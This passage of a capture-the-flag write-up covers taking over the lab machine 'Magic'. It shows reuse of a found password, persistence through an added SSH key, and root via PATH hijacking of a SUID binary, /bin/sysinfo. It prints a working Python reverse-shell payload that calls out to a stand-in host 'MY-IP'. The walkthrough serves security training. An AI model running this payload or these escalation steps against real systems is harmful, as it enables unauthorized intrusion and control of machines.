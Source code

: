 The very important information I found in this file was the credentials to log in to the Website’s uploads form:

```
admin:Th3s3usW4sK1ng
```
For some reason, the password was the same for the user on the machine, so [whit some magic](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) I upgraded my rever shell and i wrote the following command to becom the "theseus" user:

```
su theseus
```
and pass the found password!
The user's flag it's done!

## Become root

### —- Find a way —-

To give me the persistence to the machine I added my public id_rsa key to the ssh authorized_keys of the user "theseus".
In this way I can simply login to the machine through the following command:
```bash
ssh theseus@10.10.10.185
```
At this point, I spent some time around the machine to try to find a miss configuration or something that allow me to become root.
At the end of my research, I found an interesting non-standard SUID thanks to the following python script. ([LINK](https://github.com/Anon-Exploiter/SUID3NUM/blob/master/suid3num.py))

<img src="posts/magic/static/sui_enum.png" width="45%" height="45%" align="center" class="center">

A non-standard SUID could be a possible attack vector, I need more information about /bin/sysinfo

A good way that I thought to see if and which executables are called by /bin/sysinfo it’s to use the "strings" command on it.


<img src="posts/magic/static/sysinfo.png" width="45%" height="45%" align="center" class="center">
In the red box, I can see three different commands that are executed by /bin/sysinfo. NICE, IT’S TIME TO CREATE A FAKE EXECUTABLE!

### —- Privilege Escalation Using PATH Variable —-

All the technical details for this type of attack are linked [here](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

The following steps reproduce the trick:
* Write /tmp/lshw with the following payload:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY-IP",MY-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Run:
```bash
$ chmod 777 /tmp/lshw
$ export PATH=/tmp:$PATH
$ /bin/sysinfo
```
I have just to open a listening port before run /bin/sysinfo and a new root shell will spawn to me!



<img src="posts/magic/static/root.png" width="45%" height="45%" align="center" class="center">
